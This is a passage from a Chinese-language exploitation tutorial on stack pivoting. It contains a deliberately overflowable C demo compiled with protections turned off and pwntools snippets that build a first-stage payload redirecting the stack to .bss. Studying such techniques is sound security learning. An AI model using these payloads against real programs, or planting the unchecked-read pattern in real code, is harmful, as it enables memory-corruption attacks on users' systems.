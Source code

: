 此时我们劫持返回地址回到0x4011ea处，进行一次栈溢出，同样将栈底修改为另一个合法可控地址

此时再次触发

```plain
leave == mov esp,ebp; pop ebp;
ret == pop eip
```

那么ebp在第一次我们以及改成了一个.bss段地址，此时mov给了esp，然后又从栈底pop了一个我们构造好的.bss段地址，此时我们就能发现成功将esp和ebp迁移到.bss段上了

### demo

```plain
#include<stdio.h>
#include<stdlib.h>


void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}

int main()
{
init();
char a[0x30];
puts("hello stack pivoting!");
read(0,a,0x40);
    return 0;
}
```

```plain
编译命令：gcc -o text -z noexecstack -fno-stack-protector -no-pie -z lazy demo.c
```

分析此程序可以发现虽然此题有栈溢出，但是只溢出了0x10字节，利用ret2libc技巧会发现溢出量不够用来构造出输出函数和控制参数，在这里我们就可以利用stack pivoting的技巧来进行攻击

首先确定好要迁移的位置，这里我用pwntools的ELF解析模块自动找到bss段中的一部分

```plain
elf = ELF('./text')
bss=elf.bss()+0x100
```

然后构造payload

第一次迁移

```plain
payload1=垃圾数据（len=变量距离栈底长度）+迁移到的地址+read重复读取
```

带入得到

```plain
read = 0x4011DF
bss=elf.bss()+0x100
payload1 = b'a'*0x30+p64(bss)+p64(read)
```
